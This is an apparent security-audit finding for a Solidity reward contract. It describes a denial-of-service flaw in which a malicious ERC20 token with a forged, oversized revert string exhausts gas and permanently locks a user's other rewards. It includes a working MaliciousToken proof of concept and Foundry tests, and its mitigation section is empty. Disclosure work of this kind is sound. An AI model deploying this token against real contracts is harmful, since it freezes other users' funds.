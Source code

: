 ## About the contrat rewarder

### Purpose:

This contract manages a reward system where users can give rewards as tokens to other users by calling giveReward(address _user , IERC20 _token , uint _amount ) with ,specifying the user's address, token address, and reward amount

Users can withdraw their accumulated rewards by calling withdrawRewards() .

## Finding


### [H-1] A Denial of Service (DoS) attack in the Rewarder::giveReward function enables malicious actors to reward malicious tokens to users, thereby impeding their ability to retrieve all of their other rewards. 

**Description:** 

A malicious user can reward a normal user with a malicious token using the `Rewarder::giveReward` function. This token subsequently causes a revert in the `Rewarder::withdrawReward` function for the affected user, thereby preventing them from claiming their rewards.

When a user calls `Rewarder::withdrawReward` , for each reward/token he has , this code snippet runs :

``` java
try token.transfer(msg.sender , amount) {
                delete rewards[msg.sender][i];
            } catch (bytes memory reoson ) {
                string memory revertReoson = getRevertMessage(reoson);
                emit RewardTransferFailed(revertReoson);
            }
```
The hacker can manage to create a token where they override the transfer method in a way it results in a revert/error. They then manipulate the error message from token.transfer in such a way that it triggers an Out of Gas scenario. Specifically, they construct a series of bytes (reason) that, when passed to `rewarder::getRevertMessage`, exhausts the gas when attempting to decode the bytes into a string: `getRevertMessage(reason)`. This action effectively halts the entire transaction, preventing any tokens from being withdrawn.

**Impact:**
A user will never be able to withdraw the tokens he owns ; the tokens will remain stuck in the contract indefinitely.

**Proof of Concept:**
Firstly, let's generate a token that, when rewarded to a user, will hinder them from withdrawing any remaining rewards. These tokens will be permanently locked within the contract.

```java
contract MaliciousToken is ERC20 {
    constructor() ERC20 ("BAD" , "TOKEN") {
        _mint(msg.sender, 100);
    }

    function transfer(address to, uint256 value) public override  returns (bool)  {
        assembly {
            let free_memory := mload(0x40)
            mstore(free_memory , 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_memory , 4) , 0x20)
            mstore(add(free_memory , 36) , 0xfffffffffffffffffffffffffffffff )
            revert(free_memory , 100)
        }
    }

}
```

The transfer method leads to an unavoidable scenario where a revert occurs, with the revert message indicating from "free_memory" to 100. 

The first word, "free memory," stores the selector: bytes4(0x08c379a0). The second word is the head, with 0x20 pointing to the third word.

The third word marks the beginning of the string and should contain the string's size. By inputting a large number in that position, the EVM will endlessly attempt to decode the  fake-large string provided. In reality, it will only parse empty words in memory. But that would be enough to invoke oog.

Let's execute this in Foundry.

To start, let's deploy 10 valid tokens and transfer them to the contract (address(this)). Subsequently, we'll initiate a withdrawal process to retrieve these tokens.

```java
contract GoodToken is ERC20 {
    constructor() ERC20("GOOD" , "TOKEN") {
        _mint(msg.sender, 100);
    }
}
contract testRewarder is Test {
    Rewarder rewarder;
    function setUp() public {
        rewarder = new Rewarder();
    }

    function testReward() public {
        //create a list of tokens
        IERC20[] memory tokens = new IERC20[](10);
        for (uint i=0 ; i<10 ; i++){
            //deploy the token and store its address in the array
            tokens[i] = new GoodToken();
            //we have to approve the rewarder to spend the tokens 
            tokens[i].approve(address(rewarder), 100);
            rewarder.giveReward(address(this), tokens[i] , 100);
        }

        //by the end of this loop , address(this) should have 10 tokens (stored in the array tokens) with a balance of 100 each.
        // Let's create a loop in which we verify this 

        for (uint i=0 ; i<10 ; i++){
            (IERC20 token , uint amount) = rewarder.rewards(address(this) , i);
            assert(token == tokens[i]);
            assert(amount == 100);
        }
    }

    function testWithrawOnlyGoodTokens() public {
        testReward();
        rewarder.withdrawRewards();
        (IERC20 token , uint amount) = rewarder.rewards(address(this) , 0);
        //let's check that all tokens are withrawn 
        assertEq(address(token) ,  address(0));
        assertEq(amount, 0);
    }



```
In a foundry project , Open the terminal and run 
```bash
forge test --match-test testReward -vv
forge test --match-test testWithrawOnlyGoodTokens -vv
```

Both commands will return that the functions have been successfully executed.

Now, let's attempt to reward the contract with 10 valid tokens along with 1 malicious token, and then test whether the function will fail or not:

```java
    function testWithdrawMalicious() public {
        testReward();
        IERC20 maliciousToken = new MaliciousToken();
        maliciousToken.approve(address(rewarder), 1);
        rewarder.giveReward(address(this), maliciousToken , 1);

        vm.expectRevert();
        rewarder.withdrawRewards();
    }
```
Open the terminal and run :

```bash
forge test --match-test testWithdrawMalicious -vv
```
"And the test should pass once more, indicating that a revert occurred."
Below is the test script:

```java
pragma solidity ^0.8.18;

import "forge-std/Test.sol";
import {Rewarder} from "../src/Rewarder.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousToken is ERC20 {
    constructor() ERC20 ("BAD" , "TOKEN") {
        _mint(msg.sender, 100);
    }

    function transfer(address to, uint256 value) public override  returns (bool)  {
        assembly {
            let free_memory := mload(0x40)
            mstore(free_memory , 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_memory , 4) , 0x20)
            mstore(add(free_memory , 36) , 0xfffffffffffffffffffffffffffffff )
            revert(free_memory , 100)
        }
    }

}

contract GoodToken is ERC20 {
    constructor() ERC20("GOOD" , "TOKEN") {
        _mint(msg.sender, 100);
    }
}


contract testRewarder is Test {
    Rewarder rewarder;
    function setUp() public {
        rewarder = new Rewarder();
    }

    function testReward() public {
        IERC20[] memory tokens = new IERC20[](10);
        for (uint i=0 ; i<10 ; i++){
            tokens[i] = new GoodToken();
            tokens[i].approve(address(rewarder), 2);
            rewarder.giveReward(address(this), tokens[i] , 2);
        }

        for (uint i=0 ; i<10 ; i++){
            (IERC20 token , uint amount) = rewarder.rewards(address(this) , i);
            assert(token == tokens[i]);
            assert(amount == 2);
        }
    }

    function testWithrawOnlyGoodTokens() public {
        testReward();
        rewarder.withdrawRewards();
        (IERC20 token , uint amount) = rewarder.rewards(address(this) , 0);
        assertEq(address(token) ,  address(0));
        assertEq(amount, 0);
    }

    function testWithdrawMalicious() public {
        testReward();
        IERC20 maliciousToken = new MaliciousToken();
        maliciousToken.approve(address(rewarder), 1);
        rewarder.giveReward(address(this), maliciousToken , 1);

        vm.expectRevert();
        rewarder.withdrawRewards();
    }
}

```







**Recommended Mitigation:** 
